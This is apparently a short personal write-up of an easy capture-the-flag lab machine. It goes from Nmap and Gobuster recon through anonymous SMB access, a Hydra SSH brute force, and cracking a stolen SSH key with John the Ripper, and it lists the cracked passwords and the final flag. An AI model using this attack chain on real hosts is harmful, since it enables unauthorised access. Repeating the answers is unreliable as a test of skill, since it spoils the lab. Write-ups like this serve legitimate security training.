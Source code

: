 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Learn [Pentesting](../../3%20-%20Tags/Hacking%20Concepts/Pentesting.md) .

# Recon
## Nmap

We can use [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) to scan the machine IP :

```
   Openssh on 22/tcp open
```

# Enumeration
## Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to enumerate directories :

```
    /development
```
## Enum4linux

We can use [Enum4linux](../../3%20-%20Tags/Hacking%20Tools/Enum4linux.md) to enumerate directories :

```
    smb access anonymous
```

We can see we have [SMB](../../3%20-%20Tags/Hacking%20Concepts/SMB.md) anonymoues access so let's do it .
## SMBclient

```
    get staff.txt
```

## Hydra

We can use [Hydra](../../3%20-%20Tags/Hacking%20Tools/Hydra.md) to enumerate directories :

```
    jan ssh >> armando
```

## SSH

Now we can access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) protocol with the discovered credentials :

```
    ssh jan@IP >> id_rsa (kay/.ssh)
```

## ssh2john

We can use [Ssh2john](../../3%20-%20Tags/Hacking%20Tools/Ssh2john.md) to save our key in new [Hash](../../3%20-%20Tags/Hacking%20Concepts/Hash.md) file :

```
  ssh2john  id_rsa > hash
```

## John The Ripper

For the [Password cracking](../../3%20-%20Tags/Hacking%20Concepts/Password%20cracking.md) we can use [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) :

```
jhon hash --wordlist=/usr/share/wordlists/rockyou.txt
 
     beeswax  
chmod 600 id_rsa
```

## First Access
### SSH
Now we have access and we can find the [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) :

```
kay >> pass.bak >> flag: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```